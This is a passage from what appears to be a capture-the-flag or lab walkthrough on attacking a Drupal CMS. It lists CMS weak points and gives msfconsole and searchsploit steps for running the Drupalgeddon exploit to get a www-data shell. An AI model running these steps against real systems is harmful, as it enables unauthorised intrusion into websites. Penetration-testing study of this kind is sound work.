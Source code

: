 ```

[+] Scan finished (0:05:01.892400 elapsed)
```

#### tips

a little break for mind

so what`s the most important or vulnerable in hacking an cms??
>1) version
>>why?
>>
>>version of some cms can find exp on internet or use command
>> ``` 
>> searchsploit xxx		#xxx can replace with the software,versions
>> ```

>2)themes and plugins
>>there are many careless developer use unsafe codes.
>>
>>and the theme and plugins will get high level privilege when the web server runs.
>>
>>so if you can edit with them or upload them you can use evil php code/js code/.. to privilege you (get root) and get shell.

>3)vulnerable setting file or profiles
>>if any high privilege setting file is avaiable to anonymous users/low privilege users 
>>
>>it will make more unsafe factors in your sys,make more damage and cause unpredictable results.
>>  

so with guides, we can see the version is 7.22-7.26

---

# to getshell

## drupal vulnerability with msf

if we see this versio in metasploit or searchsploit.

we can got the exp of it

Drupageddon! is!
```
$msfconsole
$search drupal
$use 4		#(may other number)
$info
$#here give our machine infomation the exp need...
run		#just run it

```
then we can got www-data//shell
